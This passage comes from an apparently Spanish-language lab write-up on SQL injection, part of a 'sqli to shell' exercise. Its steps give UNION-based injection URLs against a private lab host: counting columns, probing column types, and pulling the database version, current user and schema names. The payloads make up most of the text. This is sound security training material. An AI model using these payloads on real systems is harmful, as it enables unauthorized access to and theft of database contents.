    - http://172.16.113.157/cat.php?id=2+ORDER+BY+4

     ![columnas_4](https://github.com/Nyanyi/Awae/blob/main/exercices/sqli_to_shell/images/columnas_4.png)

   - Hay 4 columnas

3. Identificación de los tipos de datos de las columnas

   - http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2CNULL%2CNULL%2C%27A%27

4. Identificación de la versión

   - http://172.16.113.157/cat.php?id=2+UNION+SELECT+VERSION%28%29%2C%40%40VERSION%2CNULL%2CNULL

   ![version](https://github.com/Nyanyi/Awae/blob/main/exercices/sqli_to_shell/images/version.png)

5. Usuario de ejecución

   - http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2CUSER%28%29%2CNULL%2CNULL

   ![](https://github.com/Nyanyi/Awae/blob/main/exercices/sqli_to_shell/images/user.png)

6. Información database

   - http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2Cschema_name%2CNULL%2CNULL+FROM+information_schema.schemata

   ![database](https://github.com/Nyanyi/Awae/blob/main/exercices/sqli_to_shell/images/database.png)
